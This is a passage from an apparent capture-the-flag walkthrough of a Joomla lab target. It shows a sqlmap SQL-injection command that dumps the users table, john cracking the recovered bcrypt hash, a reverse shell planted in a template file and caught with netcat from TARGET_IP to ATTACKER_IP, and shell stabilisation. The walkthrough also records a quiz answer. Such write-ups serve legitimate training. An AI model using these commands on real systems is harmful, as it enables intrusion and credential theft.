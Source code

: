 ```shell-session
```

Nice! Now let's try dumping the `username` and password columns:
```shell-session
$ sqlmap -u "http://TARGET_IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T '#__users' --dump -C password
...
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| jonah    | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
+----------+--------------------------------------------------------------+
```

Ok, so we have a username and a password hash, let's crack it. (Looks like a blowfish hash):
```shell-session
$ john --wordlist=/usr/share/seclists/Passwords/rockyou.txt hash.txt
spiderman123     (?)
```

> What is Jonah's cracked password?
> 
> Answer: `spiderman123`

Using this gives us access to the control panel for the joomla CMS on our target. Next we'll be using this to gain an initial foothold...

## Gaining Access

From the user dashboard, navigate to templates menu and try uploading a php reverse shell. It did not work for me so as an alternative, I just simply edited the contents of `index.php` on the default template, i.e. copy-paste the reverse shell code into that. 


Starting a listener on our machine and accessing the payload we uploaded (`index.html` in this case), we get a nice reverse shell:

```shell-session
$ nc -nvlp 4444
# Try requesting TARGET_IP/index.php/
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 44852
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 01:01:38 up  2:02,  0 users,  load average: 0.01, 0.03, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
bash: no job control in this shell
bash-4.2$ 
```


Let's stabilize the shell before we proceed:
```shell-session
bash-4.2$ python -c "import pty; pty.spawn('/bin/bash')"
python -c "import pty; pty.spawn('/bin/bash')"
bash-4.2$ ^Z
zsh: suspended  nc -nvlp 4444
$ stty raw -echo && fg
[1]  + continued  nc -nvlp 4444
                               export TERM=xterm-256-color
bash-4.2$ 
```
Nice! Now we can proceed with the usual:
```shell-session
bash-4.2$ whoami
apache
bash-4.2$ uname -a
```